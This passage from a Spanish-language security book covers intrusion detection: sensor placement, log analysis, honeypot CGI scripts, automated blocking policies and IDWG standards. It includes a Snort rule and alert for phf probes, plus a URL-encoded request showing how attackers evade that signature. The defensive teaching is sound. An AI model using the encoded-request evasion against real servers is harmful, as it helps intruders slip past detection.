\put(2851,-436){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\rmdefault}{\mddefault}{\updefault}FW}}}
\end{picture}
\caption{Situaci\'on del sensor}
\label{switch}
\end{figure}
\\Para acabar con los comentarios sobre d\'onde y c\'omo situar al sensor de
nuestro sistema detector de intrusos, un \'ultimo apunte: quiz\'as nos conviene
recordar que el interfaz por el que se analiza el tr\'afico (hablando claro, 
por el que se esnifan las tramas) no tiene por qu\'e tener direcci\'on IP.
Perfectamente podemos tener un interfaz levantado e inicializado pero sin 
asignarle ninguna direcci\'on. Esto nos puede resultar \'util si no nos interesa
que en el segmento protegido se detecte una nueva m\'aquina, o simplemente si 
no queremos que nuestro sensor sea alcanzable de alguna forma por el resto 
de sistemas de su dominio de colisi\'on. Para nuestra comodidad (por ejemplo,
a la hora de centralizar {\it logs} de diferentes sensores) podemos usar una 
m\'aquina con dos interfaces, una escuchando todo el tr\'afico y la otra 
configurada de forma normal, que ser\'a por la que accedamos al sistema.
\subsection{IDS en la m\'aquina}
Tras leer la secci\'on anterior seguramente habr\'a quedado claro que un 
correcto esquema de detecci\'on de intrusos basado en red es vital para 
proteger cualquier sistema; con frecuencia suele ser el punto m\'as importante,
que m\'as ataques detecta, y donde se suelen emplazar la mayor\'{\i}a de 
sistemas de detecci\'on que existen instalados en entornos reales hoy en 
d\'{\i}a. No obstante, esta enorme importancia suele degenerar en un error
bastante grave: en muchos entornos los responsables de seguridad, a la hora de
trabajar con IDSes, se limitan a instalar diversos sensores de detecci\'on 
basados en red en cada segmento a proteger, creyendo que as\'{\i} son capaces 
de detectar la mayor\'{\i}a de ataques. Y eso suele generar una falsa 
sensaci\'on de seguridad grave, ya que a la hora de lanzar ciertos ataques un
pirata puede eludir f\'acilmente a estos sensores; los sensores de detecci\'on 
en nuestros segmentos de red son importantes, pero no son la panacea. Para 
comprobarlo, volvamos a nuestro ejemplo anterior, en el que un atacante trata 
de descubrir vulnerabilidades en nuestros servidores {\sc http}: si 
recordamos d\'onde nos hab\'{\i}amos quedado, el pirata estaba lanzando un
escaneador de vulnerabilidades {\it web} contra el puerto 80 de nuestro servidor
corporativo; el esquema de detecci\'on implantado en el cortafuegos no 
percibir\'a nada extra\~no, pero el sensor ubicado en el segmento donde se
encuentra el servidor sin duda ver\'a patrones que denotan un ataque. Por 
ejemplo, en el momento en que el esc\'aner compruebe la existencia en el 
servidor de un CGI denominado {\tt phf}, {\sc snort} generar\'a una alerta
similar a esta:
\begin{quote}
\begin{verbatim}
[**] IDS128 - CVE-1999-0067 - CGI phf attempt [**]
03/10-03:29:59.834996 192.168.0.3:1032 -> 192.168.0.1:80
TCP TTL:56 TOS:0x0 ID:5040 IpLen:20 DgmLen:58 DF
***AP*** Seq: 0x91FA846  Ack: 0x5AD9A72  Win: 0x7D78  TcpLen: 20
\end{verbatim}
\end{quote}
Como veremos en el punto siguiente, es posible que al generar este aviso, el
propio sensor decida lanzar una respuesta autom\'atica contra la direcci\'on
atacante (por ejemplo, bloquearla en el cortafuegos corporativo). Pero {\sc
snort} trabaja bas\'andose en su base de datos de patrones de ataques; en dicha
base de datos habr\'a una regla como la siguiente:
\begin{quote}
\begin{verbatim}
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS 80 (msg:"WEB-CGI phf access";\
flags: A+; content:"/phf";flags: A+; nocase; reference:arachnids,128; \
reference:cve,CVE-1999-0067; )
\end{verbatim}
\end{quote}
A grandes rasgos, esta regla viene a decir que cuando el sensor detecte una 
petici\'on al puerto 80 de nuestro servidor {\it web} en cuyo contenido se 
encuentre la cadena {\tt `/phf'} levante la alerta correspondiente; de esta 
forma, cuando el atacante solicite el archivo {\tt /cgi-bin/phf} del servidor,
{\sc snort} `ver\'a' dicha cadena en la petici\'on y generar\'a una alarma. 
>Pero qu\'e sucede si el atacante solicita ese mismo fichero pero utilizando 
una petici\'on `ofuscada', formada por los c\'odigos ASCII de cada car\'acter?
Es decir, si en lugar de lanzar una petici\'on como {\tt `GET /cgi-bin/phf'} 
hace una similar a {\tt `GET \%2f\%63\%67\%69\%2d\%62\%69\%6e\%2f\%70\%68\%66'}.
La respuesta es sencilla: la petici\'on anterior se `decodifica' en el propio
servidor {\it web}, o como mucho en un {\it proxy} intermedio. Algunos 
detectores de intrusos, como RealSecure, son
en teor\'{\i}a capaces de procesar este tipo de tr\'afico y analizarlo 
normalmente en busca de patrones sospechosos, pero otros muchos ({\sc snort} en 
este caso) no; as\'{\i}, estos \'ultimos no ver\'an en ning\'un 
momento la cadena {\tt `/phf'} circulando por la red, y por tanto no 
generar\'an ninguna alarma. Parece entonces evidente que es
necesario un nivel adicional en nuestro esquema de detecci\'on: justamente el
compuesto por los sistemas basados en la propia m\'aquina a proteger.\\
\\Antes hemos hablado de los tres modelos b\'asicos de IDSes basados en 
m\'aquina: verificadores de integridad, analizadores de registros y {\it
honeypots}. Parece claro que un verificador de integridad en nuestro caso no va
a resultar muy \'util para detectar a ese atacante (esto no significa que no
se trate de modelos necesarios y \'utiles en otras muchas situaciones). 
Tendremos por tanto que recurrir a analizadores de {\it logs} o a tarros de 
miel instalados en la m\'aquina. Si optamos por los primeros, es sencillo
construir un {\it shellscript} que procese los archivos generados por el
servidor {\it web} -- en nuestro caso, aunque igualmente sencillo que procesar 
registros del sistema o de otras aplicaciones -- en busca de patrones que puedan
denotar un ataque, como el acceso a determinados archivos bajo el {\tt 
DocumentRoot}. Si analizamos cualquier {\it CGI Scanner} nos podremos hacer
una idea de a qu\'e patrones debemos estar atentos: por ejemplo, intentos de 
acceso a CGIs como {\tt phf} o {\tt printenv}, a archivos {\tt passwd}, a 
ficheros fuera del {\tt DocumentRoot}, etc.\\
\\Aunque analizar los registros generados por una aplicaci\'on en busca de 
ciertos patrones sospechosos es una tarea trivial, no lo es tanto el integrar
ese an\'alisis en un esquema de detecci\'on de intrusos. Seguramente procesar
la salida de un {\tt `tail -f'} del archivo de {\it log} correspondiente, 
enviando un correo electr\'onico al responsable de seguridad cuando se detecte
una entrada sospechosa es f\'acil, pero por poner un simple ejemplo, >qu\'e 
sucede cuando la m\'aquina se reinicia o el fichero de registros se rota? >Es 
necesario volver a entrar y lanzar de nuevo la orden correspondiente para 
analizar los {\it logs}? Seguramente alguien plantear\'a que se puede 
planificar una tarea para que peri\'odicamente compruebe que se est\'a 
procesando el archivo, y lance el an\'alisis en caso de que no sea 
as\'{\i}\ldots >pero hasta qu\'e punto es esto c\'omodo? >qu\'e sucede con las
entradas duplicadas? >y con los registros perdidos que no se llegan a procesar?
Evidentemente, no todo es tan sencillo como el simple {\tt `tail -f'} 
anterior.\\
\\El an\'alisis de registros generados por el sistema o por ciertas aplicaciones
suele ser una excelente fuente de informaci\'on de cara a la detecci\'on de
actividades sospechosas en nuestros entornos, pero no es habitual aplicar dicho
an\'alisis en un esquema de respuesta autom\'atica ante ataques. Es mucho m\'as
com\'un automatizar la revisi\'on de {\it logs} para que peri\'odicamente (por
ejemplo, cada noche) se analicen esos registros y se env\'{\i}e un mensaje de
alerta por correo electr\'onico a los responsables de seguridad en caso de que
algo anormal se detecte; evidentemente no es un modelo que trabaje en tiempo
real, pero no por ello deja de ser un esquema \'util en la detecci\'on de
intrusos; el \'unico problema que se presenta a la hora de realizar el
an\'alisis suele ser la decisi\'on de qu\'e patrones buscar en los registros,
algo que depende por completo del tipo de {\it log} que estemos analizando.\\
\\Aparte de los sistemas de detecci\'on basados en el an\'alisis de registros, 
otro esquema que podemos -- y debemos -- implantar en cada m\'aquina son los
{\it honeypots} o tarros de miel, mecanismo que nos ha de permitir detectar
ciertos ataques aunque el resto de sensores de nuestro modelo falle. Como antes
hemos comentado, hay diferentes modelos de tarros de miel, desde los simples
detectores de pruebas hasta los complejos sistemas dedicados por completo a esta
tarea; para detectar ataques rutinarios estos \'ultimos suelen ser algo 
excesivo e incluso en ocasiones dif\'{\i}cil no s\'olo desde un punto de vista
estrictamente t\'ecnico, ya que no siempre podemos dedicar
una m\'aquina entera a `enga\~nar' atacantes, aparte del tiempo necesario para
configurarla correctamente, actualizarla, revisar sus registros, etc. Esquemas
te\'oricamente m\'as simples pueden incluso resultar m\'as efectivos en la
pr\'actica.\\
\\En nuestro caso no vamos a complicarnos mucho la existencia; si recordamos
a nuestro atacante, estaba lanzando un escaneo de vulnerabilidades contra 
nuestro servidor {\it web}; nuestro IDS basado en red detectar\'a el ataque y
en consecuencia dar\'a la voz de alarma y, adicionalmente, ejecutar\'a una
respuesta autom\'atica contra el pirata, bloque\'andolo en el cortafuegos 
corporativo. Ese atacante ya puede m\'as que sospechar que tenemos un detector
de intrusos basado en red que le impide completar su escaneo, ya que en el 
momento que se detecta tr\'afico sospechoso bloquea por completo a la 
direcci\'on origen; por tanto, un paso l\'ogico para \'el es intentar un 
an\'alisis de vulnerabilidades `camuflado', bien mediante una simple 
codificaci\'on de peticiones bien mediante un complejo {\it stealth scan}. De
nuevo, buscar\'a la existencia de CGIs vulnerables, como {\tt /cgi-bin/phf} o 
{\tt /cgi-bin/printenv}, y en este caso {\sc snort} ser\'a incapaz de detectar
el ataque. Pero forzosamente a nuestro servidor {\it web} han de llegar estas
peticiones, por lo que >qu\'e mejor forma de detectar al pirata que en la 
propia m\'aquina? No tenemos m\'as que situar en el directorio donde se ubican
nuestros CGIs un programa que nos informe si alguien intenta acceder a \'el, 
tan simple como el siguiente {\it shellscript}:
\begin{quote}
\begin{verbatim}
anita:~# cat /web/cgi-bin/phf
#!/bin/sh
/bin/echo "Pirata desde "$REMOTE_ADDR""|mailx -s "Ataque PHF" root 
/bin/echo "Content-type: text/html"
/bin/echo ""
/bin/echo "<HTML><CENTER>Sonrie a la camara oculta...</CENTER></HTML>"
anita:~# 
\end{verbatim}
\end{quote}
Evidentemente la `decepci\'on' del sistema anterior en un atacante durar\'a
unos pocos segundos, ya que es inmediato para \'este detectar que se trata de
una simple trampa; si queremos algo m\'as elaborado, tampoco es dif\'{\i}cil 
conseguirlo: podemos simular el comportamiento de diferentes CGIs con 
vulnerabilidades conocidas de una forma muy sencilla. Por ejemplo, existen 
diferentes `imitaciones' de CGIs vulnerables que aparentan un problema de 
seguridad pero que en realidad se trata de sistemas de decepci\'on m\'as o 
menos eficaces; en {\tt
http://www.eng.auburn.edu/users/rayh/software/phf.html} podemos encontrar una
versi\'on muy interesante del CGI {\tt phf}, capaz de simular los ataques m\'as 
habituales contra el programa original de
una forma bastante cre\'{\i}ble -- aunque no perfecta --. Adem\'as en este
caso el c\'odigo en {\it Perl} es f\'acilmente modificable, con lo que podemos 
desde adecuarlo a nuestros sistemas hasta mejorar su simulaci\'on; si lo
hacemos, es muy posible que mantengamos `entretenidos' incluso a piratas con
conocimientos por encima de la media de atacantes (esto lo digo por 
experiencia). Tambi\'en podemos construirnos nuestros propios CGIs que 
aparenten ser vulnerables, en muchos casos simplemente con unos conocimientos 
b\'asicos de programaci\'on en {\it shell} o en {\it Perl}; por ejemplo, el
c\'odigo siguiente simula el CGI {\tt printenv}, proporcionando informaci\'on 
falsa sobre el sistema que parece \'util para un atacante, y avisando por correo
electr\'onico a los responsables de seguridad del sistema cuando alguien 
accede al programa:
\begin{quote}
\begin{verbatim}
anita:/# cat /web/cgi-bin/printenv
#!/usr/bin/perl

$SECUREADDRESS="root";
$mailprog = '/usr/lib/sendmail';

print "Content-type: text/html\n\n";
print "SERVER_SOFTWARE = Apache/1.3.12<br>";
print "GATEWAY_INTERFACE = CGI/1.2<br>";
print "DOCUMENT_ROOT = /usr/local/httpd/htdocs<br>";
print "REMOTE_ADDR = $ENV{'REMOTE_ADDR'}<br>";
print "SERVER_PROTOCOL = $ENV{'SERVER_PROTOCOL'}<br>";
print "SERVER_SIGNATURE = <br><i>Apache/1.3.9 Server at \
       $ENV{'SERVER_NAME'}</i><br><br>";
print "REQUEST_METHOD = GET<br>";
print "QUERY_STRING = $ENV{'QUERY_STRING'}<br>";
print "HTTP_USER_AGENT = $ENV{'HTTP_USER_AGENT'}<br>";
print "PATH = /sbin:/bin:/usr/sbin:/usr/bin:/usr/local/sbin:\
       /usr/local/bin<br>";
print "HTTP_ACCEPT = image/gif, image/x-xbitmap, image/jpeg<br>";
print "HTTP_CONNECTION = Keep-Alive<br>";
print "REMOTE_PORT = $ENV{'REMOTE_PORT'}<br>";
print "SERVER_ADDR = $ENV{'SERVER_ADDR'}<br>";
print "HTTP_ACCEPT_LANGUAGE = en<br>";
print "SCRIPT_NAME = /cgi-bin/printenv<br>";
print "HTTP_ACCEPT_ENCODING = gzip<br>";
print "SCRIPT_FILENAME = /usr/local/httpd/cgi-bin/printenv<br>";
print "SERVER_NAME = $ENV{'SERVER_NAME'}<br>";
print "REQUEST_URI = /cgi-bin/printenv<br>";
print "HTTP_ACCEPT_CHARSET = iso-8859-1, utf-8<br>";
print "SERVER_PORT = $ENV{'SERVER_PORT'}<br>";
print "HTTP_HOST = $ENV{'HTTP_HOST'}<br>";
print "SERVER_ADMIN = webmaster<br>";

# Enviamos correo
open (MAIL, "|$mailprog $SECUREADDRESS") or die "Can't open $mailprog!\n";
print MAIL "To: $SECUREADDRESS\n";
print MAIL "From: PRINTENV Watcher <$SECUREADDRESS>\n";
print MAIL "Subject: [/CGI-BIN/PRINTENV] $ENV{'REMOTE_HOST'} $action\n\n";
print MAIL "\n";
print MAIL  "--------------------------------------------------------\n";
print MAIL "Remote host: $ENV{'REMOTE_ADDR'}\n";
print MAIL "Server: $ENV{'SERVER_NAME'}\n";
print MAIL "Remote IP address: $ENV{'REMOTE_ADDR'}\n";
print MAIL "HTTP Referer: $ENV{'HTTP_REFERER'}\n";
print MAIL "Query String: $ENV{'QUERY_STRING'}\n";
print MAIL "\n--------------------------------------------------------\n";
close(MAIL);
exit;
anita:/#
\end{verbatim}
\end{quote}
\subsection{Estrategias de respuesta}
Una pregunta importante que nos hab\'{\i}amos realizado con respecto a nuestro 
esquema de deteccci\'on de intrusos (en concreto cuando habl\'abamos de {\sc 
snort}) era qu\'e hacer con la informaci\'on obtenida del mismo; como 
siempre, tenemos varias posibilidades. Por un lado, podemos procesarla 
manualmente de forma peri\'odica (por ejemplo cada ma\~nana) y en funci\'on de 
los datos que nuestros sensores hayan recogido tomar una determinada acci\'on:
bloquear las direcciones atacantes en el {\it firewall} corporativo, enviar un
correo de queja a los responsables de dichas direcciones (por desgracia esto no 
suele resultar muy \'util), realizar informes para nuestros superiores, o 
simplemente no hacer nada. Depender\'a casi por completo de la pol\'{\i}tica de 
seguridad que sigamos o que tengamos que seguir.\\
\\Mucho m\'as interesante que cualquiera de estas respuestas manuales es que el 
propio 
sensor sea capaz de generar respuestas autom\'aticas ante lo que \'el considere
un intento de ataque. Si elegimos esta opci\'on, lo m\'as habitual suele ser
un bloqueo total de la direcci\'on atacante en nuestro cortafuegos, unida a una
notificaci\'on de cualquier tipo (SMS, {\it e-mail}\ldots) a los responsables
de seguridad; es siempre recomendable efectuar esta notificaci\'on (si no en
tiempo real, si al menos registrando las medidas tomadas contra una determinada
direcci\'on en un {\it log}) por motivos evidentes: si bloqueamos completamente 
el acceso de alguien hacia nuestros sistemas, debemos pararnos a pensar que
es posible que se trate de un usuario autorizado que en ning\'un momento 
atacaba nuestras m\'aquinas, a pesar de que el sensor que hemos instalado opine
lo contrario. No importa lo seguros que estemos de lo que hacemos ni de las
veces que hayamos revisado nuestra base de datos de patrones: nunca podemos
garantizar por completo que lo que nuestro IDS detecta como un ataque realmente
lo sea.\\
\\Un correcto esquema de respuesta autom\'atica (asumimos que vamos a bloquear
la direcci\'on que presuntamente nos ataca) deber\'{\i}a contemplar al menos
los siguientes puntos:
\begin{itemize}
\item >Qu\'e probabilidad hay de que el ataque detectado sea realmente un falso
positivo?\\
No todos los ataques que un sensor detecta tienen la misma probabilidad de
serlo realmente: por ejemplo, alguien que busca en nuestros servidores {\it 
web} un {\sc cgi} denominado {\tt phf} (un programa que se encuentra en 
versiones antiguas -- muy antiguas -- de Apache, y que presenta graves 
problemas de seguridad) casi con toda probabilidad trata de atacar nuestros
sistemas; en cambio, una alarma generada porque el sensor detecta un paquete
ICMP de formato sospechoso no tiene por qu\'e representar (y seguramente no lo
har\'a) un verdadero ataque. Es necesario, o cuanto menos recomendable, asignar
un peso espec\'{\i}fico a cada alarma generada en el sensor, y actuar s\'olo
en el caso de que detectemos un ataque claro: o bien un evento que denote muy 
claramente un intento de intrusi\'on, o bien varios menos sospechosos, pero
cuya cantidad nos indique que no se trata de falsos positivos.
\item >Debemos contemplar direcciones `protegidas'?\\
Otro punto a tener en cuenta antes de lanzar una respuesta autom\'atica contra
un potencial atacante es su origen; si se trata de una direcci\'on externa, 
seguramente la respuesta ser\'a adecuada, pero si se trata de una interna a
nuestra red (o equivalentemente, de direcciones de empresas colaboradoras, 
aunque sean externas) la cosa no est\'a tan clara. Debemos plantearnos que
quiz\'as estamos bloqueando el acceso a alguien a quien, por los motivos que
sea, no deber\'{\i}amos hab\'erselo bloqueado. Aunque se trate de cuestiones
mas pol\'{\i}ticas que t\'ecnicas, es muy probable que en nuestro IDS debamos 
tener claro un conjunto de direcciones contra las que no se va actuar; si desde
ellas se detecta actividad sospechosa, podemos preparar un mecanismo que alerte
a los responsables de seguridad y, bajo la supervisi\'on de un humano, tomar 
las acciones que consideremos oportunas.
\item >Hay un l\'{\i}mite al n\'umero de respuestas por unidad de tiempo?\\
Seguramente la respuesta inmediata a esta pregunta ser\'{\i}a `no'; a fin de
cuentas, si me atacan diez direcciones diferentes en menos de un minuto, >qu\'e
hay de malo en actuar contra todas, bloque\'andolas? En principio esta 
ser\'{\i}a la forma correcta de actuar, pero debemos pararnos a pensar en lo que
es normal y lo que no lo es en nuestro entorno de trabajo. >Es realmente 
habitual que suframos ataques masivos y simult\'aneos desde diferentes 
direcciones de Internet? Dependiendo de nuestro entorno, se puede considerar
una casualidad que dos o tres m\'aquinas diferentes decidan atacarnos al mismo
tiempo; pero sin duda m\'as de este n\'umero resulta cuanto menos sospechoso. Un
pirata puede simular ataques desde diferentes {\it hosts} de una forma m\'as o
menos sencilla y si nos limitamos a bloquear direcciones (o redes completas), 
es f\'acil que nosotros mismos causemos una importante negaci\'on de servicio
contra potenciales usuarios leg\'{\i}timos (por ejemplo, simples visitantes de
nuestras p\'aginas {\it web} o usuarios de correo), lo cual puede representar 
un ataque a nuestra seguridad m\'as importante que el que causar\'{\i}a ese
mismo pirata si simplemente le permiti\'eramos escanear nuestras m\'aquinas. Si
nuestro sensor lanza demasiadas respuestas autom\'aticas en un periodo de tiempo
peque\~no, el propio sistema debe encargarse de avisar a una persona que se 
ocupe de verificar que todo es normal.
\end{itemize}
Teniendo en cuenta los puntos anteriores (y seguramente otros), debemos 
dise\~nar un esquema de respuestas autom\'aticas adecuado. Un pseudoalgoritmo 
del funcionamiento de nuestro esquema podr\'{\i}a ser el siguiente:
\begin{quote}
\begin{tabbing}
\=xxxxxxxx\=xxxxxxxx\=xxxxxxxx\=xxxxxxxx\=xxxxxxxx\kill
\>\>\>\>ESTADO: \{Detecci\a'on ataque\}\\
\>SI umbral de respuestas superado: FIN\\
\>SI NO\\
\>\>Comprobaci\a'on IP atacante\\
\>\>SI es IP protegida: FIN\\
\>\>SI NO\\
\>\>\>Ponderaci\a'on hist\a'orica de gravedad\\
\>\>\>SI umbral de gravedad superado: {\bf ACTUAR}\\
\>\>\>SI NO\\
\>\>\>\>{\bf REGISTRAR}\\
\>\>\>FSI\\
\>\>FSI\\
\>FSI\\
\end{tabbing}
\end{quote}
Como vemos, al detectar un ataque desde determinada direcci\'on, el modelo
comprueba que no se ha superado el n\'umero de respuestas m\'aximo por unidad
de tiempo (por ejemplo, que no se ha bloqueado ya un n\'umero determinado de
direcciones en las \'ultimas 24 horas); si este umbral ha sido sobrepasado no
actuaremos de ninguna forma autom\'atica, principalmente para no causar 
importantes negaciones de servicio, pero si no lo ha sido,
se verifica que la direcci\'on IP contra la que previsiblemente se actuar\'a no
corresponde a una de nuestras 'protegidas', por ejemplo a una m\'aquina de la
red corporativa: si es as\'{\i} se finaliza. Este `finalizar' no implica ni
mucho menos que el ataque no haya sido detectado y se haya guardado un {\it log}
del mismo, simplemente que para evitar problemas mayores no actuamos en tiempo
real contra la m\'aquina: si corresponde al grupo de `protegidas' es porque
tenemos cierta confianza -- o cierto control -- sobre la misma, por lo que un
operador puede preocuparse m\'as tarde de investigar la alerta. Si se trata de
una direcci\'on no controlada ponderamos la gravedad del ataque: un ataque con
poca posibilidad de ser un falso po\-si\-ti\-vo tendr\'a un peso elevado, 
mientras que uno que pueda ser una falsa alarma tendr\'a un peso bajo; a\'un 
as\'{\i}, {\bf diferentes} ataques de poco peso pueden llegar a sobrepasar 
nuestro 
l\'{\i}mite si se repiten en un intervalo de tiempo peque\~no. Es importante 
recalcar el `diferentes', ya que si la alarma que se genera es todo el rato la
misma debemos plantearnos algo: >es posible que un proceso que se ejecuta 
peri\'odicamente y que no se trata de un ataque est\'e todo el rato levantando
una falsa misma alarma? La respuesta es {\bf s\'{\i}}, y evidentemente no 
debemos bloquearlo sin m\'as; seguramente es m\'as recomendable revisar nuestra 
base de datos de patrones de ataques para ver por qu\'e se puede estar 
generando cont\'{\i}nuamente dicha alarma.\\
\\Por \'ultimo, si nuestro umbral no se ha superado debemos registrar el ataque,
su peso y la hora en que se produjo para poder hacer ponderaciones hist\'oricas
ante m\'as alarmas generadas desde la misma direcci\'on, y si se ha superado
el esquema debe efectuar la respuesta autom\'atica: bloquear al atacante en
el cortafuegos, enviar un correo electr\'onico al responsable de seguridad, etc.
Debemos pensar que para llegar a este \'ultimo punto, tenemos que estar bastante
seguros de que realmente hemos detectado a un pirata: no podemos permitirnos
el efectuar respuestas autom\'aticas ante cualquier patr\'on que nos parezca
sospechoso sin saber realmente -- o con una probabilidad alta -- que se trata
de algo hostil a nuestros sistemas.\\
\\Antes de finalizar este punto, es necesario que volver a
insistir una vez m\'as en algo que ya hemos comentado: es {\bf muy recomendable}
que ante cada respuesta se genere un aviso que pueda ser validado por un
administrador de sistemas o por responsables de seguridad, mejor si es en
tiempo real; por muy seguros que estemos del correcto funcionamiento de nuestro
detector de intrusos, nadie nos garantiza que no nos podamos encontrar ante 
comportamientos inesperados o indebidos, y con toda certeza es m\'as f\'acil 
para una persona que para una m\'aquina darse cuenta de un error y subsanarlo.
\subsection{Ampliaci\'on del esquema}
Las ideas que acabamos de comentar pueden resultar m\'as o menos interesantes,
pero presentan varios problemas importantes que es necesario comentar. El 
primero y m\'as importante es la descentralizaci\'on del esquema: tenemos 
implantadas varias aproximaciones a la detecci\'on de intrusos, pero hasta ahora
no hemos hablado de la relaci\'on entre ellas; cada uno de los modelos de
detecci\'on y/o respuesta de los que hemos tratado puede actuar de forma
independiente sin muchos problemas, pero en los entornos actuales esto es cada
vez menos habitual. Hoy en d\'{\i}a, lo normal es encontrarse arquitecturas de
red segmentadas, con sensores en cada segmento tanto a nivel de red como de
{\it host}, as\'{\i} como uno o varios cortafuegos corporativos en los que 
tambi\'en se lleva a cabo detecci\'on de intrusos y respuesta autom\'atica. 
Est\'a claro que tener elementos independientes no es la aproximaci\'on m\'as
adecuada, por lo que necesitamos un esquema capaz de unificar los ataques 
detectados, por ejemplo para correlar eventos y lanzar \'unicamente una 
respuesta autom\'atica ante un mismo ataque, aunque se detecte simult\'aneamente
en diferentes sensores; sin ser tan ambiciosos, la centralizaci\'on en una
\'unica consola puede ser necesaria para algo tan simple como generar 
estad\'{\i}sticas mensuales acerca del n\'umero de ataques contra nuestro 
entorno de trabajo: si un mismo ataque se detecta en varios sensores, >c\'omo
contabilizarlo? >c\'omo saber si se trata del mismo intruso o de varios? 
>qui\'en de todos decide lanzar una respuesta autom\'atica?\ldots\\ 
\\Para tratar de solucionar este importante problema, hace unos a\~nos se 
defini\'o el grupo de trabajo {\sc idwg} ({\it Intrusion Detection Exchange
Format Working Group}), englobado dentro del {\sc ietf} ({\it Internet 
Engineering Task Force}); su prop\'osito es obvio: tratar de definir 
est\'andares para el intercambio de informaci\'on entre los diferentes 
elementos de un sistema de detecci\'on de intrusos y respuesta autom\'atica,
tanto a nivel de formato de datos como de procedimientos de intercambio. 
Mediante esta aproximaci\'on se facilita enormemente tanto la integraci\'on de 
sistemas, ya que de lo \'unico que nos debemos preocupar es que todos los 
elementos (sensores, consolas, elementos de respuesta\ldots) sean capaces de 
`hablar' el est\'andar, como la escalabilidad: a\~nadir a un entorno de 
detecci\'on distribuido un nuevo IDS, comercial o desarrollo propio, es mucho
m\'as sencillo, ya que casi s\'olo hemos de conseguir que el nuevo elemento 
utilice los formatos est\'andar definidos por el {\sc idwg}.\\
\\Hasta la fecha, el grupo de trabajo ha publicado cuatro borradores que cubren
los requisitos (de alto nivel) para las comunicaciones dentro del sistema de
detecci\'on de intrusos, el modelo de datos para representar la informaci\'on
relevante para los IDSes -- incluyendo una implementaci\'on en XML --, el 
protocolo {\sc beep} ({\it Blocks Extensible Exchange Protocol}) aplicado a la
detecci\'on de intrusos, y finalmente el protocolo {\sc idxp} ({\it Intrusion
Detection eXchange Protocol}) para intercambio de informaci\'on entre entidades
de un sistema distribuido de detecci\'on de intrusos. Sin duda el primero y
el \'ultimo son especialmente importantes, ya que constituyen la base del
sistema de intercambio de datos entre los diferentes elementos del entorno: 
marcan el `lenguaje' que antes dec\'{\i}amos que ten\'{\i}an que saber hablar
todas y cada una de las entidades del sistema distribuido.\\
\\Desde {\tt http://www.ietf.org/html.charters/idwg-charter.html} pueden 
consultarse los trabajos del {\sc idwg}; se trata de un grupo activo, que 
realiza cont\'{\i}nuamente revisiones y mejoras de sus borradores para tratar 
de convertirlos en un est\'andar real. Si alg\'un d\'{\i}a esto es as\'{\i},
habremos dado un paso muy importante en el dise\~no, implantaci\'on y gesti\'on
de sistemas distribuidos de detecci\'on de intrusos; lamentablemente, muchos
de los productos actuales no parecen tener mucho inter\'es en acercarse al
est\'andar (quiz\'as por miedo a perder cota de mercado). La integraci\'on de
algunos sistemas (como {\sc snort}) es bastante inmediata, pero en cambio la
de otros -- especialmente productos comerciales, altamente cerrados -- no lo
es tanto; mientras esto no cambie, es dif\'{\i}cil que se consiga implantar el
est\'andar, as\'{\i} que \'ojala estos fabricantes se den cuenta de que su 
adaptaci\'on a los borradores del {\sc idwg} produce sin duda m\'as beneficios
que da\~nos.
\section{Algunas reflexiones}
\begin{center}
{\it NOTA: Este punto es completamente subjetivo, se trata s\'olo de opiniones 
personales, tan v\'alidas o tan err\'oneas como cualquier otra opini\'on 
personal, e igual de respetables.}
\end{center}
Por desgracia, los piratas inform\'aticos, los intrusos, est\'an cada d\'{\i}a 
m\'as de moda;
sin duda alguna los problemas de seguridad que m\'as `gustan' a la sociedad 
son los relacionados con {\it hackers}, {\it crackers} o como esta semana los 
medios hayan decidido llamar a los piratas inform\'aticos: evidentemente, es
mucho m\'as interesante y sensacionalista cualquier atacante que modifique la 
p\'agina {\it web} del Pent\'agono que las investigaciones o los 
descubrimientos de gente como Marcus Ranum, Gene Spafford o Ross Anderson, por 
poner s\'olo unos ejemplos. Es as\'{\i} de
triste: al contrario de lo que grandes expertos en seguridad han manifestado en 
repetidas ocasiones (\cite{kn:spa90}, \cite{kn:sto88}, \cite{kn:ran00}, 
\cite{kn:kru00}\ldots) 
mucha gente considera a los intrusos como h\'eroes, como j\'ovenes inteligentes 
que utilizan sus ordenadores para poner en jaque a grandes organizaciones -- 
pol\'{\i}ticas, empresariales, militares\ldots -- con un simple teclado, sin 
disparar ni un solo tiro, sin quemar autobuses o sin lanzar piedras 
desde una barricada; seguramente nadie se ha parado a pensar que ese pirata al
que hoy admira ma\~nana puede entrar en el PC de su casa y formatearle el disco 
duro simplemente porque le apetec\'{\i}a.\\ 
\\Aparte de esta presunta `demostraci\'on de inteligencia', otro argumento muy 
utilizado por los
defensores de los {\it crackers} es el derecho a la libertad de informaci\'on
de toda persona: ven a los piratas como un peque\~no David que triunfa sobre
el gran Goliat y descubre todos sus secretos simplemente con un peque\~no 
ordenador
casero; parad\'ojicamente, son estas personas las que luego ponen el grito en
el cielo y reivindican ciegamente su derecho a la privacidad cuando se enteran
de la existencia de redes como {\sc echelon}, dedicada en teor\'{\i}a al
espionaje de las telecomunicaciones (correo electr\'onico incluido) de todo el 
mundo, y puesta en marcha por los gobiernos estadounidense y brit\'anico, en
colaboraci\'on con el canadiense, australiano y neozeland\'es. >Qu\'e
diferencia hay entre un gobierno que esp\'{\i}a nuestro correo y un {\it
cracker} que esnifa nuestras claves? >Qui\'en decide qu\'e es m\'as `privado'
para m\'{\i}, si mi correo o mis contrase\~nas? >Un juez que a duras penas
conoce la diferencia entre `asterisco' y `asteroide'? Ser\'{\i}a muy interesante
plantearselo\ldots\\
\\La simpat\'{\i}a social hacia los piratas es tal que incluso existen empresas 
que se jactan de contratar a estas personas, y mucho mejor -- m\'as publicidad 
-- cuanto m\'as `malos' hayan sido en el pasado o cuanto m\'as {\it eleet} haya 
sido o sea su
apodo (muy pocos contratar\'{\i}an a un pirata que se haga llamar `Manolo', pero
si su {\it alias} era {\it `Z3roK00l'} tiene m\'as posibilidades ;-); as\'{\i}
lo pueden disfrazar de arrepentido, como alguien que cambia de bando ({\it 
`hacking \'etico'} es la palabra que a los departamentos de {\it marketing} les
gusta utilizar para hablar de esta tendencia). Seguramente, de las personas que 
dejan auditar
sus entornos inform\'aticos a piratas (ex--piratas, perd\'on), muy pocos 
dejar\'{\i}an una parcela de bosque de su propiedad al cuidado de un pir\'omano 
(de nuevo, ex--pir\'omano), y eso a pesar de que, siguiendo la teor\'{\i}a que 
han aplicado a sus redes y a sus sistemas, nadie conocer\'a mejor que un 
antiguo pir\'omano los secretos de las t\'acticas de provocaci\'on de incendios 
